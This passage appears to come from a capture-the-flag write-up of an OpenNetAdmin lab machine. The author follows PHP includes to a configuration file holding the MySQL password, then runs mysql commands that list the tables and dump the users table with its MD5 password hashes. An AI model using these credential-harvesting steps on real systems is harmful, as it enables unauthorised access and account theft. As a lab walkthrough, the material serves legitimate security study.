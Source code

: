 
So now we have some usernames like jimmy and joanna. Lets continue seeing around.


Ok, reading the different php files of the page, I've done this way:

1. Read the index.php, and got a "require_once($base . '/config/config.inc.php');".
2. Read the config.inc.php, where it appears "$dbconffile = "{$base}/local/config/database_settings.inc.php";"
3. Reading the /local/config/database_settings.inc.php we got the MySQL credentials, so lets send some queries:

```
$ mysql --user=ona_sys --password=n1nj4W4rri0R! -h localhost --database=ona_default --execute="SELECT table_name FROM information_schema.tables where table_schema = 'ona_default';"
table_name
blocks
configuration_types
configurations
custom_attribute_types
custom_attributes
dcm_module_list
device_types
devices
dhcp_failover_groups
dhcp_option_entries
dhcp_options
dhcp_pools
dhcp_server_subnets
dns
dns_server_domains
dns_views
domains
group_assignments
groups
host_roles
hosts
interface_clusters
interfaces
locations
manufacturers
messages
models
ona_logs
permission_assignments
permissions
roles
sequences
sessions
subnet_types
subnets
sys_config
tags
users
vlan_campuses
vlans
```
And now...
```
$ mysql --user=ona_sys --password=n1nj4W4rri0R! -h localhost --database=ona_default --execute="SELECT * FROM users;"
id      username        password        level   ctime   atime
1       guest   098f6bcd4621d373cade4e832627b4f6        0       2020-04-23 14:16:06     2020-04-23 14:16:06
2       admin   21232f297a57a5a743894a0e4a801fc3        0       2007-10-30 03:00:17     2007-12-02 22:10:26
```